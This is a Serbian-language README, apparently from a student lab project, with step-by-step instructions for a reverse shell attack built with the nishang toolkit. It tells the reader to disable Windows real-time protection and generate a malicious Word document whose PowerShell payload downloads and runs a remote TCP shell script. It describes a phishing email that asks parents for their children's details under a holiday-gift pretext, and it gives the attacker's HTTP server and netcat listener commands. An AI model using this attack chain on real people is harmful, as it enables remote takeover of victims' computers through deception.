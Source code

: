 # Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

![Primer screenshot-a](\Screenshots\real_time_protection.png)

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

![Primer screenshot-a](\Screenshots\positioning.png)

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

![Primer screenshot-a](\Screenshots\dot_sourced.png)

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

![Primer screenshot-a](\Screenshots\creating_malicious_file.png)

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

![Primer screenshot-a](\Screenshots\phishing_mail.png)

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![Primer screenshot-a](\Screenshots\downloading_payload_script.png)

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

![Primer screenshot-a](\Screenshots\modifying_payload_script.png)

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

![Primer screenshot-a](\Screenshots\starting_server.png)

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

![Primer screenshot-a](Screenshots/attack_example.png)
